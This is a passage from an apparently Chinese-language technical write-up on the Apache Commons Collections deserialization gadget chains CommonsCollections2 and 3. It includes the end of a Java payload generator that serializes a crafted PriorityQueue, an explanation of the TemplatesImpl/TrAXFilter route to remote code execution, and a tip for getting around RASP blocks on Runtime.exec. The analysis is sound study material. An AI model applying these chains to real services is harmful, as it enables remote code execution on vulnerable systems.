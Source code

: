 ```java
        field.setAccessible(true);
        Object[] innerArr = (Object[]) field.get(queue);
        innerArr[0] = templates;
        innerArr[1] = templates;

        field = PriorityQueue.class.getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue, comparator);

        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("out.bin"));
        oos.writeObject(queue);
        oos.close();
    }
}
```
生成字节码用的是 ysoseiral 一样的 javassist, 可以在正常的字节码前后插入恶意 payload.  
另外这里因为是运行的字节码, 所以其实变通方法很多, 如果只是想读写文件但有 RASP ban 掉了 Runtime.exec, 其实可以通过 File 来读写文件.  

4 的修复方法比较粗暴, 直接干掉了 InvokerTransformer 的 Serializable 继承.  

![](https://i.loli.net/2020/01/27/2aVoPLzdcXFfRj5.png)


## CommonsCollections3

这个与上面的 CommonsCollections1 接近, 区别是将一串的 InvokerTransformer 换成了 InstantiateTransformer, 利用刚刚在 CommonsCollections2 介绍的 `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl` 导致 RCE. 本质是换汤不换药.

InstantiateTransformer 做的工作是
```java
public Object transform(Object input) {
    try {
        if (!(input instanceof Class)) {
            throw new FunctorException("InstantiateTransformer: Input object was not an instanceof Class, it was a " + (input == null ? "null object" : input.getClass().getName()));
        } else {
            Constructor con = ((Class)input).getConstructor(this.iParamTypes);
            return con.newInstance(this.iArgs);
        }
    }
```
就是将类实例化, 也就是调用 input 的构造函数, 这里 InstantiateTransformer 能替换 InvokerTransformer 的原因是内置类 `com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter` 在构造时,  

```java
public TrAXFilter(Templates templates) throws TransformerConfigurationException {
    this._templates = templates;
    this._transformer = (TransformerImpl)templates.newTransformer();
    this._transformerHandler = new TransformerHandlerImpl(this._transformer);
    this._overrideDefaultParser = this._transformer.overrideDefaultParser();
}
```
会调用 templates 的 newTransformer 方法, 其实这里 InstantiateTransformer 起到的作用是和 InvokerTransformer 一样的.
